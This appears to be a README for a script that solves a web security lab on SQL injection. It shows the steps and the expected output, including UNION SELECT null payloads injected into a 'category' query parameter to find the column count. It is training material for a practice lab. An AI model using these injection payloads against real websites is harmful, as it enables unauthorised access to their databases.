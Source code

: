 # Hack Steps

1. Inject payload into 'category' query parameter to determine the number of columns.
2. Add one additional null column at a time.
3. Repeat this process, increasing the number of columns until you receive a valid response.

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python sql_injection_union_attack_determining_the_number_of_columns_returned_by_the_query.py
```

# Expected Output

```
[#] Injection parameter: category
[*] Trying payload: ' UNION SELECT null-- -
[*] Trying payload: ' UNION SELECT null, null-- -
[*] Trying payload: ' UNION SELECT null, null, null-- -
[#] Number of columns: 3
🗹 The lab should be marked now as solved
```
